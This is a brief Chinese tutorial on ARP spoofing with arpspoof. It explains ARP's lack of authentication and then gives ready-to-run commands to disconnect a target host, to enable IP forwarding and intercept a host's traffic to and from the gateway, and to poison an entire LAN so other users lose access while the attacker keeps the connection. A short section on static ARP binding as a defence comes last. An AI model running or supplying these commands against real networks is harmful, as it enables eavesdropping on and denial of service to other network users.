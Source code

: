 地址解析协议，即ARP（Address Resolution Protocol），是根据IP地址 获取物理地址（MAC地址）的一个TCP/IP协议。
主机发送信息时将包含目标IP地址的ARP请求广播到局域网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。
地址解析协议是建立在网络中各个主机互相信任的基础上的，局域网络上的主机可以自主发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；


## 语法
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

## 参数
-t target  指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机
host  host是你想要截获数据包的主机 (通常是网关)。
-i interface  指定要使用的接口（即指定一块网卡）
-r 捕获两个方向的网络流量, 默认只捕获target到host的流量

使用 `ip a`来查看网卡名称 

## 使用
`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
-i 指定网卡
-t 目标哦主机
host 网关
这个命令的含义是获取目标主机发给网关的包

## 应用
### 让目标主机断网
截获目标主机发给网关的信息
`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
### 截取目标主机信息
```sh
## 开启本机的转发功能 1表示开启, 0表示关闭
echo 1 > /proc/sys/net/ipv4/ip_forward 
arpspoof -i eth0 -t 192.168.31.45 -r 192.168.31.1
```
### 让整个个局域网断网
不用-t参数，那它就是指针对所有的主机发起欺骗, 让所有其他主机不能上网, 这时只要自己不被欺骗就可以独享网络.
`arpspoof -i eth0 网关IP`


### 防范中间人欺骗
arp欺骗攻击就是通过改变主机的映射表，即原来192.168.1.1指向的mac地址是a-b-c-d, 而有人在局域网内喊话说192.168.1.1是a-a-a-a 那你的电脑收到后就会改变

```sh
arp -a  # 查看arp缓存表, 可以看到iP和MAC是动态的
arp -s  192.168.31.1   ec-41-18-49-d4-30  # 静态绑定
```




参考:
https://blog.csdn.net/qq_54780911/article/details/121891827
https://blog.csdn.net/qq_54780911/article/details/121957519